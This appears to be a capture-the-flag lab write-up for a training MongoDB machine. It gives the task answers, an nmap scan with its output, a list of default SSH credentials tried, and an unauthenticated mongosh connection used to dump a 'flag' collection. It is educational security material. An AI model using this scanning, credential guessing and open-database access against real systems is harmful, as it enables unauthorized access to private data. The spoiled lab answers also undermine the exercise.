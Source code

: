 ## 1. Questions
- Task 1
	- How many TCP ports are open on the machine?
		- `2`
- Task 2
	- Which service is running on port 27017 of the remote host?
		- `MongoDB 3.6.8`
- Task 3
	- What type of database is MongoDB? (Choose: SQL or NoSQL)
		- `NoSQL`
- Task 4
	- What command is used to launch the interactive MongoDB shell from the terminal?
		- `mongosh`
- Task 5
	- What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)
		- `show dbs`
- Task 6
	- What is the command used for listing out the collections in a database? (No need to include a trailing ;)
		- `show collections`
- Task 7
	- What command is used to dump the content of all the documents within the collection named `flag`?
		- `db.flag.find()`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- ls
- grep
- mongosh
- curl
- tar
- mongodb
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -p- -T4 10.129.99.146
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```
<snip>
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
| mongodb-databases: 
|   databases
|     0
|       sizeOnDisk = 32768.0
|       empty = false
|       name = admin
|     2
|       sizeOnDisk = 73728.0
|       empty = false
|       name = local
|     1
|       sizeOnDisk = 73728.0
|       empty = false
|       name = config
|     4
|       sizeOnDisk = 32768.0
|       empty = false
|       name = users
|     3
|       sizeOnDisk = 32768.0
|       empty = false
|       name = sensitive_information
|   ok = 1.0
|_  totalSize = 245760.0
<snip>
```
### Research common credentials
- Usernames
	- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials
- Passwords
	- https://outpost24.com/blog/it-admins-weak-password-use/#:~:text=The%20top%2020%20administrator%20passwords
### Test ssh connection
- Useful resource
	- https://quickref.me/ssh.html
- Test usernames
	- `anonymous`
	- `admin`
	- `administrator`
	- `root`
	- `test`
- Test passwords
	- admin
	- password
	- admin123
	- root
	- admin@123
	- admin1234
- Unable to connect using test credentials
### Check mongosh installed
- Useful resource
	- https://www.mongodb.com/docs/mongodb-shell/install/#confirm-that-mongosh-installed-successfully
- `v2.3.8` installed
```bash
mongosh --version
```
### Test connection to mongodb
- Useful resource
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#connect
```bash
mongosh mongodb://10.129.99.146:27017
```
- Resulted in dependency version conflict error
```bash
MongoServerSelectionError: Server at 10.129.99.146:27017 reports maximum wire version 6, but this version of the Node.js Driver requires at least 7 (MongoDB 4.0)
```
### Test previous versions of mongosh
- Useful resource
	- https://www.mongodb.com/docs/mongodb-shell/changelog/#v2.3.6
	- https://www.mongodb.com/docs/mongodb-shell/changelog/#v2.3.2
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#connect
- Focus
	- Previous versions with no `MONGOSH-*` marked changes
- Versions tested
	- `v2.3.6`
	- `v2.3.2`
- Result
	- `v2.3.2` connects successfully without credentials
```bash
./mongosh-2.3.2-linux-x64/bin/mongosh mongodb://10.129.99.146:27017
```
### Explore databases
- Useful resource
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#show-databases
```mongodb
show dbs
```
- Result
```mongodb
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```
### Switch to sensitive_information database
- Useful resource
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#switch-database
```sql
use sensitive_information
```
### Explore collections
- Useful resource
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#show-collections
```sql
show collections
```
- Result
```sql
flag
```
### Retrieve the flag
- Useful resource
	- https://www.mongodb.com/docs/v7.0/reference/cheatsheet/#read
```bash
db.flag.find().pretty()
```
## 4. Installing v2.3.2 mongosh
### Download the archive
```bash
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz;
```
### Decompress the archive
```basch
tar xvf mongosh-2.3.2-linux-x64.tgz;
```
